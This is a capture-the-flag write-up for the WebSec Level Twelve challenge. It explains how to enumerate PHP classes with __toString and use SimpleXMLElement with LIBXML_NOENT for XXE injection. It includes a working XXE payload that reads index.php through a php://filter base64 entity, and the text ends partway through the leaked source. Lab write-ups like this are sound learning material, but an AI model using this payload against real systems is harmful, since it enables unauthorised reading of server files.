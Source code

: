 So since we know `__toString()` is a function that is used, I can find all the classes that contain this function. 

I had to look up a walkthrough since I could not solve this. The solution was to find all classes using this:

```php
<?php

$classes = get_declared_classes();

foreach ($classes as $cls) {
    if (method_exists($cls, '__toString')) {
        echo "--> " . $cls . PHP_EOL;
    }
}
?>
```

However, this didn't work on my machine since I don't have the XML class for whatever reason. Anyways, using the `SimpleXMLElement` class allows us to perform XXE injection since it forces the website to process XML.

How it is used is 
`SimpleXMLElement ($xml, $options)`
`$options` can be specified to `LIBXML_NOENT`:

![](../../.gitbook/assets/Pasted%20image%2020240129195223.png)

This value allows for us to perform XXE injection, with the payload being in `$xml`.
Here's a payload for the injection

```xml
<!DOCTYPE user [<!ENTITY internal SYSTEM 'php://filter/convert.base64-encode/resource=index.php'>]>  
<user>&internal;</user>
```

This gives us a huge base64 encoded string for `index.php`.

```php
<!DOCTYPE html>
<html>
<head>
	<title>#WebSec Level Twelve</title>

    <link href="/static/bootstrap.min.css" rel="stylesheet" />
    <link href="/static/websec.css" rel="stylesheet" />

    <link rel="icon" href="/static/favicon.png" type="image/png">
</head>
	<body>
		<div id="main">
			<div class="container">
				<div class="row">
					<h1>LevelTwelve <small> - This time, it's different.</small></h1>
				</div>
				<div class="row">
					<p class="lead">
```